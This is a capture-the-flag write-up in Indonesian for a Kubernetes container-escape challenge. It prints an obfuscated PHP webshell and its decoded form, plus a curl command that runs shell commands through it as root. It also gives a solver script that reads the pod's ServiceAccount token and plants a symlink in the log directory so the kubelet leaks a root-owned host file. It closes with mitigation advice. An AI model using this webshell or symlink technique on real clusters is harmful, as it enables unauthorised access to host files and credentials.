




<p align="center">
  <br>
  
</p>

# Write-Up: Linked Shell

| | |
|---|---|
| **Event** | LappungCTF Vol 3.0 |
| **Category** | Web / Cloud Security (Kubernetes Container Escape) |
| **Points** | 836 poin |
| **Author / Solver** | Bagaskara Amukti Palapa ([@BagaskaraAP-Dev](https://github.com/BagaskaraAP-Dev)) |
| **Affiliation** | Universitas Bina Darma |

---

## 🚩 Flag

```text
LappungCTF{l1nk3d_f1l3s_1n_l0gd1r_c4n_l34k_4ny7h1n9_27f09866cf}
```

---

## 📖 Deskripsi Soal

Soalnya singkat dan padat: ada webshell PHP misterius yang berjalan di dalam sebuah pod Kubernetes. Flag disimpan di berkas `/root/flag.txt`, **tetapi berada di mesin node (host), bukan di dalam pod**.

Dapat akses eksekusi perintah di dalam pod saja tidak cukup — kita harus keluar (*container escape*) dari isolasi pod hingga mencapai *node filesystem*. Jadi ini merupakan skenario *container escape* tingkat lanjut yang dibungkus dalam antarmuka web.

---

## 🔎 Analisis 1: Deobfuscation Webshell PHP

Saat halaman target diakses, server langsung menampilkan kode sumbernya melalui fungsi `highlight_file(__FILE__)`:



```php
<?php highlight_file(__FILE__); ?>
<?='';@$_='!~`.{'^'~./}/';@${$_}[$_]&&@${$_}[$_](${$_}['"``~'^'}??!']);
```

Meskipun tampak rumit, baris kode ini sebenarnya adalah teknik obfuscation string berbasis **bitwise XOR (`^`)**:

```text
'!~`.{'  ^  '~./}/'   -->  '_POST'
'"``~'   ^  '}??!'    -->  '____'
```

Jika variabel-variabel tersebut digabungkan kembali, bentuk eksekusi aslinya adalah:

```php
$_POST['_POST']( $_POST['____'] );
```

Mekanismenya:
- Parameter `_POST` menerima **nama fungsi** yang ingin dieksekusi (contoh: `system`, `passthru`, `exec`).
- Parameter `____` menerima **argumen / perintah shell** yang dikirimkan.

Uji coba awal mengirimkan payload:
```bash
curl -s http://linked-shell.lappungctf.id/ -d "_POST=system&____=id"
```
Output respon:
```text
uid=0(root) gid=0(root) groups=0(root)
```
Kita telah memperoleh hak akses `root` di dalam pod. Namun, hak akses root di dalam kontainer masih terkurung dalam namespace dan cgroup pod.

---

## 🔍 Analisis 2: Inspeksi Lingkungan & Hak Akses ServiceAccount

Sebelum merencanakan *escape*, kita lakukan enumerasi lingkungan kontainer:

1. **Linux Capabilities:**
   Nilai `CapEff` adalah `a80425fb` (standar default containerd tanpa `CAP_SYS_ADMIN`), membuktikan kontainer tidak berjalan dalam mode `privileged`. Vektor escape kasar berbasis cgroup release_agent atau mount langsung tidak dapat digunakan.

2. **Mount Points & Filesystem:**
   Terdapat direktori `/var/log` yang di-mount secara **read-write** dari host. Struktur path `/var/snap/microk8s/...` mengonfirmasi bahwa kluster berjalan di atas **MicroK8s**.

3. **Kubernetes API Token:**
   Ditemukan token ServiceAccount pada path standar:
   ```text
   /run/secrets/kubernetes.io/serviceaccount/token
   /run/secrets/kubernetes.io/serviceaccount/namespace
   ```

Pemeriksaan izin RBAC menggunakan `SelfSubjectAccessReview`:

| Resource / Subresource | Verb | Diizinkan? |
|---|---|:---:|
| `pods` | `list` | ✅ **Ya** |
| `pods` | `create` | ❌ Tidak |
| `pods/exec` | `create` | ✅ **Ya** |
| `pods/log` | `get` | ✅ **Ya** |
| `nodes` | `get / list` | ❌ Tidak |
| `secrets` | `get / list` | ❌ Tidak |

Kita tidak memiliki izin membuat pod baru, sehingga strategi umum membuat pod privileged otomatis gugur. Namun, izin **`pods/log`** dan direktori `/var/log` yang *writable* membuka celah eksploitasi yang sangat spesifik.

---

## 💡 Analisis 3: Clue dari Job Cleanup Spec

Dengan hak akses `list pods`, kita melakukan *dump* manifest pod di kluster. Ditemukan sebuah job cleanup yang me-mount direktori `/root` milik node ke `/hostroot`. Pada spesifikasi kontainernya terdapat komentar pengembang:

```bash
# Restore the flag if kubelet log writes (appended
# through a planted symlink) corrupted it.
```

Komentar ini secara eksplisit mengonfirmasi vektor kerentanan: **eksploitasi symlink pada direktori log Kubelet**!

---

## ⚡ Mekanisme Container Escape (Kubelet Symlink Arbitrary Read)

1. Pada arsitektur Kubernetes/CRI, Kubelet menyimpan berkas log setiap kontainer pada path host:
   ```text
   /var/log/pods/<ns>_<pod>_<uid>/<container>/<N>.log
   ```
   Karena `/var/log` di-mount dua arah (*hostPath*), kontainer kita dapat memodifikasi isi dan struktur direktori tersebut.

2. Ketika pengguna atau ServiceAccount meminta log pod melalui Kubernetes API (`GET /api/v1/namespaces/{ns}/pods/{pod}/log`), komponen yang membaca berkas log tersebut dari disk adalah daemon **Kubelet**.

3. **Kubelet berjalan dengan hak akses root di level host node.**

4. Jika kita mengganti berkas log kontainer dengan **symbolic link (symlink)** yang mengarah ke target `/root/flag.txt`, Kubelet di host akan mengikuti symlink tersebut (*dereference*) dan membaca isi `/root/flag.txt`.

5. **Kelemahan Parser CRI Kubelet:**
   Format berkas `/root/flag.txt` bukan merupakan format log CRI standar (`<timestamp> stdout F <message>`). Akibatnya, parser internal Kubelet mengalami *parsing failure* dan mencetak seluruh baris yang gagal diurai ke dalam pesan error API:
   ```text
   failed to get parse function: unsupported log format: "LappungCTF{l1nk3d_f1l3s_1n_l0gd1r_c4n_l34k_4ny7h1n9_27f09866cf}"
   ```
   Pesan error ini langsung membocorkan flag asli host ke respon HTTP kita!

---

## 🚀 Eksploitasi & Solver

Karena terdapat *cleanup job* yang secara berkala membersihkan symlink setiap menit, eksploitasi harus dijalankan secara atomik dalam satu eksekusi.

Script [`solver.sh`](solver.sh):

```bash
#!/usr/bin/env bash
set -euo pipefail
URL="${1:-http://linked-shell.lappungctf.id/}"

read -r -d '' PAYLOAD <<'EOF' || true
SA=/run/secrets/kubernetes.io/serviceaccount
TOKEN=$(cat "$SA/token"); NS=$(cat "$SA/namespace")
API="https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT"
POD=$(hostname)
LOG=$(readlink -f "$(ls -1 /var/log/containers/${POD}_${NS}_php-*.log | head -1)")
ln -sf /root/flag.txt "$LOG"
curl -sk "$API/api/v1/namespaces/$NS/pods/$POD/log?container=php&tailLines=5" \
  -H "Authorization: Bearer $TOKEN"
EOF

RESP=$(curl -s "$URL" --data-urlencode '_POST=system' --data-urlencode "____=$PAYLOAD" || true)
FLAG=$(printf '%s' "$RESP" | grep -oE 'LappungCTF\{[^}]*\}' | head -1)

printf '%s\n' "$RESP" | grep -oE 'failed to get parse function:.*'

if [ -n "${FLAG:-}" ]; then
  echo "[+] $FLAG"
else
  echo "[-] Ekstraksi gagal, coba ulangi kembali." >&2
  exit 1
fi
```

### Eksekusi Solver di Terminal



```text
failed to get parse function: unsupported log format: "LappungCTF{l1nk3d_f1l3s_1n_l0gd1r_c4n_l34k_4ny7h1n9_27f09866cf}"
[+] LappungCTF{l1nk3d_f1l3s_1n_l0gd1r_c4n_l34k_4ny7h1n9_27f09866cf}
```

---

## 🤖 Lampiran Kepatuhan AI Policy (LappungCTF Vol 3.0)

Berdasarkan regulasi resmi **LappungCTF Vol 3.0 AI Policy**, peserta diwajibkan melampirkan rekaman riwayat interaksi sesi AI (DeepSeek / Google AI Overview) secara transparan pada laporan writeup.

Berikut adalah dokumentasi sesi DeepSeek yang digunakan untuk memverifikasi referensi perilaku Kubelet symlink logging:

<p align="center">
  
  
</p>

- **Sesi DeepSeek 01 (Pertanyaan):** Konsultasi mekanisme dereference symlink Kubelet terhadap container logs directory.
- **Sesi DeepSeek 02 (Jawaban):** Analisis keterbatasan parser CRI dan cara penanganan log file di node MicroK8s.

---

## 🏁 Kesimpulan & Mitigasi

- **Penyebab Kerentanan:** Memberikan mount *hostPath* read-write `/var/log` ke dalam pod tanpa isolasi cgroup/user namespace memungkinkan pod membuat symlink arbitrer yang dieksekusi oleh daemon host dengan privilege root.
- **Rekomendasi Mitigasi:**
  1. Hindari memberikan *hostPath mount* direktori log ke pod yang tidak tepercaya.
  2. Aktifkan validasi path Kubelet (`cleanLogPath` / symlink resolution security checks).
  3. Batasi RBAC ServiceAccount agar tidak dapat membaca subresource `pods/log` secara sembarangan.
